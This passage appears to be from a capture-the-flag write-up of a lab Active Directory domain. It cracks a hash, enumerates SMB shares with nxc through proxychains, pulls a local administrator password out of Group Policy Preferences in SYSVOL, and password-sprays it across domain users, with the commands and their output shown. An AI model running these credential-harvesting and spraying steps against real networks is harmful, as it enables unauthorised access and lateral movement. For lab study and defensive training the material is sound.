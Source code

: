 Cracking the hash with hashcat gives us domain creds!
```
samuel.davies:l6fkiy9oN
```

Checking the shares shows that there is an `accounting$` share that could be interesting.
```
proxychains -q nxc smb heron.vl -u samuel.davies -p l6fkiy9oN --shares
SMB         10.10.172.101   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.172.101   445    MUCDC            [*] Enumerated shares
SMB         10.10.172.101   445    MUCDC            Share           Permissions     Remark
SMB         10.10.172.101   445    MUCDC            -----           -----------     ------
SMB         10.10.172.101   445    MUCDC            accounting$                     
SMB         10.10.172.101   445    MUCDC            ADMIN$                          Remote Admin
SMB         10.10.172.101   445    MUCDC            C$                              Default share
SMB         10.10.172.101   445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.172.101   445    MUCDC            home$           READ            
SMB         10.10.172.101   445    MUCDC            IPC$                            Remote IPC
SMB         10.10.172.101   445    MUCDC            it$                             
SMB         10.10.172.101   445    MUCDC            NETLOGON        READ            Logon server share 
SMB         10.10.172.101   445    MUCDC            SYSVOL          READ            Logon server share 
SMB         10.10.172.101   445    MUCDC            transfer$       READ,WRITE    
```

Also gives the hostname of `MUCDC.heron.vl`

As we can read the SYSVOL going to see if there is a gpp password.
```
proxychains -q nxc smb heron.vl -u samuel.davies -p l6fkiy9oN -M gpp_password
... snip ...
PP_PASS... 10.10.172.101       445    MUCDC            [+] Found credentials in heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml
GPP_PASS... 10.10.172.101       445    MUCDC            Password: H3r0n2024#!
GPP_PASS... 10.10.172.101       445    MUCDC            action: U
GPP_PASS... 10.10.172.101       445    MUCDC            newName: _local
GPP_PASS... 10.10.172.101       445    MUCDC            fullName: 
GPP_PASS... 10.10.172.101       445    MUCDC            description: local administrator
GPP_PASS... 10.10.172.101       445    MUCDC            changeLogon: 0
GPP_PASS... 10.10.172.101       445    MUCDC            noChange: 0
GPP_PASS... 10.10.172.101       445    MUCDC            neverExpires: 1
GPP_PASS... 10.10.172.101       445    MUCDC            acctDisabled: 0
GPP_PASS... 10.10.172.101       445    MUCDC            subAuthority: RID_ADMIN
GPP_PASS... 10.10.172.101       445    MUCDC            userName: Administrator (built-in)
```

Going to password spray to see if this password has been reused as it looks like a generic domain password.
```
proxychains -q nxc ldap heron.vl -u ~/vulnlab/heron/users.txt -p 'H3r0n2024#!'
SMB         10.10.172.101       445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
LDAP        10.10.172.101       389    MUCDC            [+] heron.vl\svc-web-accounting-d:H3r0n2024#!
```
